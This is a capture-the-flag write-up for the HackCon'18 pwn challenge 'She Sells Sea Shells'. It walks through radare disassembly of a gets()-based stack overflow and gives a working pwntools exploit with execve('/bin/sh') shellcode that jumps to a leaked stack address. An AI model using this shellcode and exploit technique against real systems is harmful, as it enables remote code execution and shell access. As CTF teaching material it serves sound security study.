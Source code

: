 ```yaml
---
layout: writeup
ctf: HackCon'18
challenge: "She Sells Sea Shells"
author: Ring0p
date:   2018-08-17
categories: [pwn]
tags: [ ctf, challenge, programming, write-up ]
---
```

  - CTF NAME: [Hackcon 2018](https://hackcon.in/)
  - Category: PWN
  - Binary: [pwn2](http://ringr0p.github.io/binary/hackcon2018-bof)
  - Difficulty: Easy

This challenge was the fourth challenge (90 pts) of the pwn category in the [Hackcon CTF 2018](https://hackcon.in/).

Let's open the binary:

```
Welcome.

I have a small gift for you (no strings attached) 0x7ffcfd9a7b60

```
The first question is: what is the "small gift" that the program is giving us?
Let's open it in radare and try to figure it out:

```code
|	        0x00400676      55             push rbp                                                                                                      
|           0x00400677      4889e5         mov rbp, rsp                                                                                                          |           0x0040067a      4883ec50       sub rsp, 0x50               ; 'P'                                                                                     
|           0x0040067e      897dbc         mov dword [local_44h], edi    ; arg1                                                                                  |           0x00400681      488975b0       mov qword [local_50h], rsi    ; arg2                                                                                 
|           0x00400685      bf88074000     mov edi, str.Welcome.       ; 0x400788 ; "Welcome.\n"                                                                 |           0x0040068a      e891feffff     call sym.imp.puts           ;[2] ; int puts(const char *s)                                                           
|           0x0040068f      488d45c0       lea rax, [local_40h]                                                                                                  |           0x00400693      4889c6         mov rsi, rax
|           0x00400696      bf98074000     mov edi, str.I_have_a_small_gift_for_you__no_strings_attached___p
|           0x0040069b      b800000000     mov eax, 0                                                                                                            
|           0x004006a0      e88bfeffff     call sym.imp.printf         ;[2] ; int printf(const char *format)                                                     
|           0x004006a5      488b05a40920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        
|           0x004006ac      4889c7         mov rdi, rax                                                                                                          
|           0x004006af      e8acfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006b4      488b05a50920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00
|           0x004006bb      4889c7         mov rdi, rax                                                                                                          |           0x004006be      e89dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           
|           0x004006c3      488d45c0       lea rax, [local_40h]                                                                                                  |           0x004006c7      4889c7         mov rdi, rax                                                                                              
|           0x004006ca      b800000000     mov eax, 0                                                                                                            |           0x004006cf      e87cfeffff     call sym.imp.gets           ;[4] ; char *gets(char *s)
|           0x004006d4      488b05750920.  mov rax, qword sym.stdout    ; loc.stdout ; [0x601050:8]=0x7f59d30ee760 ; "`\xe7\x0e\xd3Y\x7f"                        |           0x004006db      4889c7         mov rdi, rax
|           0x004006de      e87dfeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006e3      488b05760920.  mov rax, qword obj.stdin    ; [0x601060:8]=0x7f59d30eda00                                                             |           0x004006ea      4889c7         mov rdi, rax
|           0x004006ed      e86efeffff     call sym.imp.fflush         ;[3] ; int fflush(FILE *stream)                                                           |           0x004006f2      b800000000     mov eax, 0
|           0x004006f7      c9             leave                                                                                                                 \           0x004006f8   *  c3             ret                                                                                                    

```

Ok, we can see that at 0x0040068f the address of the buffer (local_40h) is placed in rax. Notice that it uses the
"LEA" instruction instead of MOV, because it wants to "Load Effective Address" of the buffer in the register.
Than it moves rax in rsi as second parameter of the printf function, as the x64 calling convetion wants (first parameter in rdi , then rsi, rdx, rcx and so on).

After that, it requests, as the other challenges, an input that is managed using the gets () function, without the lenght control.

Then we can control the return address because there are no canaries on the stack. Moreover the NX bit is 0, then the stack is executable.
It means that if we place a shellcode in the stack and redirect the program to that address (that "casually" is given by the program), the code will be executed.

Now we have everything to write the exploit, and this time I used PwnTools to help me in the communication with the remote server:

```python
from pwn import *

'''
Shellcode:

xor rdi, rdi
xor rsi, rsi
xor rdx, rdx
xor rax, rax
push rax
mov rbx, 68732f2f6e69622fH
push rbx
mov rdi, rsp
mov al, 59
syscall

'''
shellcode = "\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

log.info ("Shellcode len %d bytes", len(shellcode))

rem = False

if rem:
    p = remote ("139.59.30.165", 8900)
else:
    p = process ("./bof")

a = p.recv(80)
addr = int(a[60:74], 16)
payload = shellcode + (72 - len(shellcode))*'a' + p64(addr)
p.sendline(payload)
p.interactive()
#print payload

```

And it works ;) !

![placeholder](/assets/writeups/HackCon2018/she_sells_sea_shells/flag.png)
